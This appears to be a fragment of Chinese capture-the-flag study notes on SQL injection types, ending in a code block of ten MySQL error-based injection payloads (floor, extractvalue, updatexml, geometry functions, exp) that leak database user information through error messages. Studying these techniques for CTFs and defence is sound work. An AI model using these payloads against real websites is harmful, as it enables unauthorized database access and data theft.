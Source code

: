 ### 含gc回收机制

## 常见的sql注入

常见的sql注入或特殊的方法有：

**联合查询**

> **堆叠注入**
>
> **bypass trick**   见 buu - four - [SUCTF 2018]MultiSQL

> **报错注入**
>
> ```mysql
> 1.floor() 
> select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
> 
> 2.extractvalue() 
> select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
> 
> 3.updatexml()
> select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
> 
> 4.geometrycollection()
> select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
> 
> 5.multipoint()
> select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
> 
> 6.polygon() 
> select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
> 
> 7.multipolygon() 
> select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
> 
> 8.linestring() 
> select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
> 
> 9.multilinestring() 
> select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
> 
> 10.exp() 
> select * from test where id=1 and exp(~(select * from(select user())a));
> ```
>
> 

**二次注入**
